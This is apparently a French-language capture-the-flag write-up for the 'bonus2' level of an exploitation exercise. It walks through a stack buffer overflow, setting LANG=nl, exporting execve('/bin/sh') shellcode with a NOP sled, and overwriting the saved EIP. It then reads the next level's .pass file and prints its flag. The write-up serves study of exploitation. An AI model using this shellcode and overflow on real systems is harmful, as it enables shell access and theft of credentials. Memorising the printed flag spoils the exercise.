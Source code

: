 Dans ce niveau notre executable a 2 fonction `main()` et `greetuser()`

La fonction main prend 2 args, elle va copier le premier (sur 40 char)
```sh
0x08048564 <+59>:	movl   $0x28,0x8(%esp)
```
Ensuite elle va copier le second a la suite du premier et enfin va recup la `var d'env LANG`
```sh
0x0804859f      c704243887..   mov dword [esp], str.LANG   ; [0x8048738:4]=0x474e414c ; "LANG"
```
Il y a des comparaison du retour avec `fi` et `nl` pour l'appel a `greetuser`

Avec `fi` on a `Hyvää päivää` et avec `nl` c'est `Goedemiddag!` qui est ecrit sinon ca sera `Hello`

Apres plusieurs essais sans changer la variable `LANG` nous manquons de characteres pour ecrire par dessus l'eip completement

l'eip est a cette adresse `0xbffff6cc` :
```sh
Breakpoint 2 (0x08048528) pending.
(gdb) i f
Stack level 0, frame at 0xbffff6d0:
 eip = 0x804852f in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6c8, args: 
 Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
 Saved registers:
  ebp at 0xbffff6c8, eip at 0xbffff6cc
```

Donc on va changer en `nl` avec `export LANG=nl`

Ensuite ici on peut ecrire par dessus l'eip, on va remplacer ce qui se trouve a son adresse par l'adresse d'un script passe en variable d'env (comme bonus0)

Avec encore le meme shellcode `execve(/bin/sh)` :

`export SCRIPT=$(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')`

On va noter son adresse en se placant dans les instrcutions `NOP`:
```sh
0xbffff906:	 "SCRIPT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
[...]
(gdb) x/12wx 0xbffff906
0xbffff906:	0x49524353	0x903d5450	0x90909090	0x90909090
0xbffff916:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff926:	0x90909090	0x90909090	0x90909090	0x90909090
```
Pour savoir ou placer l'adresse dans notre 2eme arg on a besoin de savoir combien de char placer avant (ici 23 "B" sont place avant l'eip `0xbffff6cc`)
```sh
(gdb) x/20wx $eax
0xbffff580:	0x64656f47	0x64696d65	0x21676164	0x41414120
0xbffff590:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff5a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff5b0:	0x41414141	0x42424241	0x42424242	0x42424242
0xbffff5c0:	0x42424242	0x42424242	0x42424242	0xbffff926
``` 
On peut donc envoyer ce script : `./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\x26\xf9\xff\xbf"')`

Notre shell est ouvert on peut donc `cat /home/user/bonus3/.pass` pour recuperer le flag `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`